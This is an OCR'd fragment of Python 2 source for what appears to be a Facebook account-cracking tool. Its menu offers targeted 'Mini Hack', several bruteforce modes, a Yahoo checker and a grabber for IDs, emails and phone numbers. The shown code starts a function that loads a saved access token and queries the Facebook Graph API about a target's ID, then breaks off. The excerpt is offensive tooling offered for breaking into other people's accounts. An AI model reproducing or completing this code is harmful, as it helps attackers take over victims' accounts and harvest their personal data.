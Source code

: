     os.system('clear')
    print logo
    print 52 * '\x1b[1;97m\xe2\x95\x90'
    print '║-> \x1b[1;37;40m1. Mini Hack Facebook (\x1b[1;92mTarget\x1b[1;97m)'
    print '║-> \x1b[1;37;40m2. Multi Bruteforce Facebook'
    print '║-> \x1b[1;37;40m3. Super Multi Bruteforce Facebook'
    print '║-> \x1b[1;37;40m4. BruteForce (\x1b[1;92mTarget\x1b[1;97m)'
    print '║-> \x1b[1;37;40m5. Yahoo Checker'
    print '║-> \x1b[1;37;40m6. Get ID/Email/HP'
    print '║-> \x1b[1;31;40m0. Back'
    print '\x1b[1;37;40m║'
    hack_pilih()


def hack_pilih():
    hack = raw_input('╚═\x1b[1;91m▶\x1b[1;97m ')
    if hack == '':
        print '\x1b[1;91m[!] Can\'t empty'
        hack_pilih()
    else:
        if hack == '1':
            mini()
        else:
            if hack == '2':
                crack()
                hasil()
            else:
                if hack == '3':
                    super()
                else:
                    if hack == '4':
                        brute()
                    else:
                        if hack == '5':
                            menu_yahoo()
                        else:
                            if hack == '6':
                                grab()
                            else:
                                if hack == '0':
                                    menu()
                                else:
                                    print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + hack + ' \x1b[1;91mNot found'
                                    hack_pilih()


def mini():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()
    else:
        os.system('clear')
        print logo
        print 52 * '\x1b[1;97m\xe2\x95\x90'
        print '\x1b[1;91m[ INFO ] Target must be your friend !'
        try:
            id = raw_input('\x1b[1;91m[+] \x1b[1;92mID Target \x1b[1;91m:\x1b[1;97m ')
            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
            r = requests.get('https://graph.facebook.com/' + id + '?access_token=' + toket)
            a = json.loads(r.text)